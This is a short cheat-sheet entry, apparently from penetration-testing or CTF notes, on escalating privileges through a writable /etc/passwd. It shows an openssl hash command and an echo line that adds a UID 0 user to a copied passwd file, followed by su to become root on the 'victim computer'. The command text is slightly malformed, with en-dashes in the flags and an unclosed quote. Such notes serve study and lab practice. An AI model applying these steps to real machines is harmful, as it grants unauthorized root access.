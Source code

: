 Files for PE
***************

/etc/passwd
##############

Make sure to check the permissions of `/etc/passwd` to see if you can manually create a user. To do this, run the following commands.

.. code-block:: console

        openssl passwd –1 –salt <username> <password>

You then copy the `/etc/passwd` output in the victim computer into a new passwd file on the attack computer. You then echo the following in the new `passwd` file

.. code-block:: console

   echo "<username>:<previous_openssl_cmd_output>:0:0:root:<home_folder_of_user>:/bin/sh

You then download it, copy it, and then run `su - <username>` to get elevated privileges

